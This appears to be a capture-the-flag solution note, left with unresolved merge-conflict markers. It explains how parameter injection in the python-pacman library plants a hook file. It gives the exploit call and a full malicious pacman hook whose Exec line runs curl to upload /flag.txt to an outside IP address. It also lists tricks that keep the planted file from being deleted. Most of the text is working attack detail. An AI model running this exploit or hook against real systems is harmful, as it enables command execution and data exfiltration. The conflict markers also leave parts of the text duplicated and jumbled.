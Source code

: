 <<<<<<< HEAD
# spoiler: this is the solution



=======
>>>>>>> 215417f9139707be31157057f1fa34e2c87c08e0
0day in python-pacman (allows parameter injection)

- exploit code is: pacman.install(["--hookdir", "/tmp/pacman/", "wget"])
- we can use json to put a list into the install function instead of a string (string is not vuln)
<<<<<<< HEAD
- pacman hook looks like this

```
=======
- Hook looks like this
>>>>>>> 215417f9139707be31157057f1fa34e2c87c08e0

[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.178.200:4444"
<<<<<<< HEAD
```

- we need to write a file to the directory (therefore I added /check)
=======

- we need to write a file to the directory
>>>>>>> 215417f9139707be31157057f1fa34e2c87c08e0
- we need to throw an exception in check_output so that the remove() does not get called
- therefore we use ' -h.hook' as filename (calls --help and returns 2)
- hook files must end with .hook. The hook will only be executed if something will be installed (check if it's not already installed!)


<<<<<<< HEAD

=======
>>>>>>> 215417f9139707be31157057f1fa34e2c87c08e0
